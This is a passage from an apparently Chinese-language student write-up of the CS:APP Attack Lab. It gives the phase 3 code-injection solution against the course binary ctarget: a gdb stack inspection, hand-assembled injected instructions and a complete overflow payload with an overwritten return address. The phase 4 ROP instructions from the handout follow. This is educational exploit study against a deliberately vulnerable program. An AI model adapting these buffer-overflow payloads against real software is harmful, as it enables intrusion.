           00000000004018fa <touch3>:
          4018fa:	53                   	push   %rbx
          4018fb:	48 89 fb             	mov    %rdi,%rbx  
    
    > touch3地址: 0x4018fa
    > cookie：0x59b997fa字符串表示形式：35 39 62 39 39 37 66 61 
    > getbuf栈顶地址：0x5561dc78
      **因为getbuf栈帧可能被hexmatch和strncmp覆盖，所以字符串不能存在getbuf栈帧，应该存在text的栈帧**

        在test调用getbuf前查看%rsp
        (gdb) print $rsp
        $1 = (void *) 0x5561dca8
        将改地址用来保存字符串

        movq $0x5561dca8,%rdi //%rdi 保存字符串地址， 
        push $0x4018fa //转移到touch3
        ret

        0000000000000000 <.text>:
        0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
        7:	68 fa 18 40 00       	pushq  $0x4018fa
        c:	c3                   	retq   

        level3.txt:
        48 c7 c7 a8 dc 61 55 68      /* 注入代码 */
        fa 18 40 00 c3 00 00 00
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        78 dc 61 55 00 00 00 00      /* 返回地址,即getbuf的栈顶 */
        35 39 62 39 39 37 66 61      /* 字符串 */

        ./hex2raw -i level3.txt | ./ctarget -q

        + 一个疑惑点解答：大小端是具多个字节数据的内部排列顺序
        > 对于ascii的字符串，它的基本数据类型是char，占据一个字节，不存在内部，按字符从高到低排序。
          对于如int型这样占据多个字节的数据，才有大小端之分。
          int a[3] = [1, 2, 3]
          小端：01 00 00 00 02 00 00 00 03 00 00 00
          大端：00 00 00 01 00 00 00 02 00 00 00 03

4. phase4

    > For Phase 4, you will repeat the attack of Phase 2, but do so on program RTARGET using gadgets from your gadget farm. You can construct your solution using gadgets consisting of the following instruction types, and using only the first eight x86-64 registers (%rax–%rdi).
    movq : The codes for these are shown in Figure 3A.
    popq : The codes for these are shown in Figure 3B.
    ret : This instruction is encoded by the single byte 0xc3.
    nop : This instruction (pronounced “no op,” which is short for “no operation”) is encoded by the single byte 0x90. Its only effect is to cause the program counter to be incremented by 1.

    > Some Advice:
      • All the gadgets you need can be found in the region of the code for rtarget demarcated by the functions start_farm and mid_farm.
      • You can do this attack with just two gadgets.
      • When a gadget uses a popq instruction, it will pop data from the stack. As a result, your exploit string will contain a combination of gadget addresses and data.
